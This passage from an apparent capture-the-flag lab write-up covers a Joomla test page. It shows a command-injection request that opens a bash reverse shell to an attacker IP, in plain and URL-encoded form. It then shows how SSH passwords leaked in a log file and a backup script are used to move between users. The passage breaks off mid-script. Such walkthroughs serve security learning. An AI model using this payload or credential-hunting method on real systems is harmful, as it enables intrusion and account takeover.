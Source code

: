 <pre>
GET /joomla/_test/index.php?plot=;bash -c 'bash -i >& /dev/tcp/10.9.235.177/9000 0>&1';
</pre>
<p>payload url encoded:</p>
<pre>
GET /joomla/_test/index.php?plot=%3bbash%20-c%20'bash%20-i%20%3e%26%20%2fdev%2ftcp%2f10.9.235.177%2f9000%200%3e%261'%3b
</pre>

<h2>Step 5: Lateral privilege escalation to basterd</h2>
<p>In the newly acquired reverse shell, I found an interesting log file containing ssh credentials:</p>
<pre>
www-data@Vulnerable:/var/www/html/joomla/_test$ cat log.txt
cat log.txt
Aug 20 11:16:26 parrot sshd[2443]: Server listening on 0.0.0.0 port 22.
Aug 20 11:16:26 parrot sshd[2443]: Server listening on :: port 22.
Aug 20 11:16:35 parrot sshd[2451]: Accepted password for basterd from 10.1.1.1 port 49824 ssh2 #pass: superduperp@$$
Aug 20 11:16:35 parrot sshd[2451]: pam_unix(sshd:session): session opened for user pentest by (uid=0)
Aug 20 11:16:36 parrot sshd[2466]: Received disconnect from 10.10.170.50 port 49824:11: disconnected by user
Aug 20 11:16:36 parrot sshd[2466]: Disconnected from user pentest 10.10.170.50 port 49824
Aug 20 11:16:36 parrot sshd[2451]: pam_unix(sshd:session): session closed for user pentest
Aug 20 12:24:38 parrot sshd[2443]: Received signal 15; terminating.
</pre>
<p>Next, I used these credentials to login as basterd using ssh. In the home directory, I found the following script containing credentials for another user called "stoner":</p>
<pre>
basterd@Vulnerable:~$ cat backup.sh 
REMOTE=1.2.3.4

SOURCE=/home/stoner
TARGET=/usr/local/backup

LOG=/home/stoner/bck.log
 
DATE=`date +%y\.%m\.%d\.`

USER=stoner
#superduperp@$$no1knows

ssh $USER@$REMOTE mkdir $TARGET/$DATE

                                                                                                                                                                      
if [ -d "$SOURCE" ]; then                                                                                                                                             
    for i in `ls $SOURCE | grep 'data'`;do                                                                                                                            
             echo "Begining copy of" $i  >> $LOG                                                                                                                      
             scp  $SOURCE/$i $USER@$REMOTE:$TARGET/$DATE                                                                                                              
             echo $i "completed" >> $LOG                                                                                                                              

                if [ -n `ssh $USER@$REMOTE ls $TARGET/$DATE/$i 2>/dev/null` ];then
                    rm $SOURCE/$i
                    echo $i "removed" >> $LOG
                    echo "####################" >> $LOG
                                else
                                        echo "Copy not complete" >> $LOG
                                        exit 0
                fi 
    done
     